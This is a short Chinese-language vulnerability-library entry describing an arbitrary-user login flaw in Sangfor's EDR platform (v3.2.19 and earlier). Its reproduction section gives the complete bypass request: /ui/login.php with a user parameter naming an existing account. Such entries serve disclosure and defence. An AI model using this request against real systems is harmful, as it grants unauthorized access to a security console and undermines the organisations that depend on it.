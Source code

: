 ```yaml
---
title: 深信服后台任意用户登陆漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 深信服
---
```


# 深信服后台任意用户登陆漏洞

## 漏洞描述

深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，登录任意用户

## 影响版本

> [!NOTE]
>
> EDR <= v3.2.19

## 漏洞复现

https://xxx.xxx.xxx.xxx/ui/login.php?user=admin

> [!NOTE]
>
> 注意最后的admin需要为存在的用户名

!此处图片缺失[](./image/sxf-2.png)